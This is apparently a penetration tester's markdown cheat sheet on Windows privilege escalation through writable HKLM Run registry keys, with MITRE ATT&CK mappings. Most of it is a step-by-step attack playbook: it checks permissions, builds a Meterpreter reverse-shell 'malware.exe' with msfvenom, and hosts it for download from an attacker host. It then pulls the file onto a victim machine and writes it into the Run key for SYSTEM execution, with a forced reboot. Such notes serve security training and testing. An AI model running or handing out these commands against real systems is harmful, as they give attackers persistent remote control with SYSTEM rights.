

> [!abstract] Privilege Escalation via Writable Registry Run Keys
> If a standard user has "Write" permissions to a registry key that is executed by the SYSTEM or an Administrator (such as the `Run` keys), they can place a malicious payload path in that key. When the system reboots or the user logs in, the payload executes with elevated privileges.
> **MITRE ATT&CK Mapping:** [T1547.001 - Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder](https://attack.mitre.org/techniques/T1547/001/) | [T1574.011 - Hijack Execution Flow: Services Registry Permissions Weakness](https://attack.mitre.org/techniques/T1574/011/)

## Attack Flow Diagram



## Step 1: Enumeration (Finding Weak Permissions)

> [!info]+ Checking Access Control Lists (ACLs)
> The first step is to verify if the current user has write access to sensitive registry keys or service executable directories.
> 
> **Check Registry Key Permissions:**
> ```powershell
> # Check if current user can write to the HKLM Run key
> get-acl 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run' | fl
> ```
> 
> **Check Folder Permissions:**
> ```powershell
> # Check if current user can write to a service directory
> get-acl "C:\Program Files\HTTPServer\" | fl
> ```
> *Look for your user or group having `FullControl` or `Write` permissions in the output.*

---

## Step 2: Payload Generation & Setup

> [!danger]+ Creating the Malicious Executable
> Generate a reverse shell payload that matches the target architecture (x64 in this case).
> ```bash
> msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=4444 -f exe -o 'malware.exe'
> ```

> [!tip]+ Setting up the Listener & Web Server
> Start the Metasploit handler to catch the reverse shell, and a Python HTTP server to host the payload for download.
> 
> **Terminal 1 (Metasploit Listener):**
> ```bash
> msfconsole -qx "use exploit/multi/handler; set lhost x.x.x.x; set lport 4444; set payload windows/meterpreter/reverse_tcp; run"
> ```
> 
> **Terminal 2 (HTTP Server):**
> ```bash
> python3 -m http.server 80
> ```

---

## Step 3: Delivery & Registry Hijacking

> [!success]+ Executing the Hijack on the Victim
> Download the payload to the victim machine and write its path into the vulnerable registry key.
> 
> **Download the Payload:**
> ```powershell
> iwr -UseBasicParsing -uri "http://x.x.x.x:80/malware.exe" -OutFile "C:\Users\victim\Desktop\malware.exe"
> ```
> 
> **Write to Registry (Persistence/Escalation Trigger):**
> ```powershell
> # Add a new String value named 'system' pointing to our malware
> set-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" -name system -value "C:\Users\victim\Desktop\malware.exe" -Type String
> ```

> [!warning] Triggering the Payload
> Once the registry key is modified, the payload will **not** execute immediately. `HKLM\...\Run` keys are triggered on system startup or when a new user logs in. 
> 
> If you have permissions to reboot the system, use:
> ```cmd
> shutdown /r /t 0
> ```
> Otherwise, you must wait for an administrator to log in or for the system to be restarted organically. Once triggered, the payload runs as `NT AUTHORITY\SYSTEM`.

